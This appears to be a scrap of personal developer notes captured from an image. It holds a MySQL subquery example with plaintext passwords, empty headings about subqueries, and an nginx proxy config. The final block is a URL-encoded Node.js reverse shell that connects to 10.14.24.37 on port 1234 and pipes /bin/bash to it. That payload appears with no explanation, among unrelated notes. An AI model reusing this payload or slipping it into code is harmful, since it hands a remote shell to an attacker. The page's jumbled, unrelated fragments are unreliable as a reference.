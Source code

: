 ```
mysql> SELECT * FROM users WHERE OperatingSystem='windows' and OperatingSystem IN(SELECT OperatingSystem FROM users WHERE id>97);
+------+-----------------+-----------+--------------------+-----------------+-----------------+
| id   | name            | username  | password           | Domain          | OperatingSystem |
+------+-----------------+-----------+--------------------+-----------------+-----------------+
|  102 | charan          | charan    | charan@1234        | 192.168.158.101 | windows         |
|  455 | nanaji          | nani      | nani@1234          | 128.168.776.22  | windows         |
|   78 | YashwanthGorisi | yashwanth | yashwanth@password | yashwanth.in    | windows         |
+------+-----------------+-----------+--------------------+-----------------+-----------------+
3 rows in set (0.00 sec)
```

1. normal SUB QUERIES
2. co-related SUB QUERIES

# Normal SUB QUERIES

















# LEAVE IT NODE+NGINX+DOCKER :)
```
ALTER DATABASE webserver MODIFY NAME = nerdpine;

server {
    location / {
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
        client_max_body_size 64M;
        proxy_pass http://nodeserver:8000;
    }
}
```

```

var+net+=+require("net"),+sh+=+require("child_process").exec("/bin/bash");var+client+=+new+net.Socket();client.connect(1234,+"10.14.24.37",+function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});


```
